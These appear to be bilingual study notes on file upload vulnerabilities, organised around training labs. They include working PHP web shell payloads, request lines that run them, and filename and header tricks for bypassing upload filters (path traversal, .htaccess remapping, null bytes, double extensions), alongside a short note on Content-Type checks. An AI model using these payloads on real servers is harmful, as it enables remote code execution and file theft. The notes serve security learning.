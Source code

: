 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

## PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

**Lab: Remote code execution via web shell upload**
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

## 防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png
  
**Lab: Web shell upload via Content-Type restriction bypass**
- change Content-Type : image/jpeg

**Lab: Web shell upload via path traversal**
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php

## 黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so <br>
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    - <"staticContent>
        <"mimeMap fileExtension=".json" mimeType="application/json" /"><br>
        </staticContent">

**Lab: Web shell upload via extension blacklist bypass**
- filename : .htaccess
- Content-Type : text/plain
- AddType application/x-httpd-php .l33t
- exploit.l33t 

## Obfuscating file extensions
- 多個擴充名 : exploit.php.jpg
- 新增尾隨字元 : exploit.php.
- 使用 URL 編碼 : exploit%2Ephp
- 加上分號 : exploit.asp;.jpg
- 加上URL 編碼的空位元組字元 : exploit.asp%00.jpg
- 使用多位元組 Unicode 字符 : xC0 x2E、xC4 xAE、xC0 xAE會轉換為x2E
- 剝離 : exploit.p.phphp

**Lab: Web shell upload via obfuscated file extension**
- filename="exploit.php%00.jpg"
- exploit.php

## Flawed validation
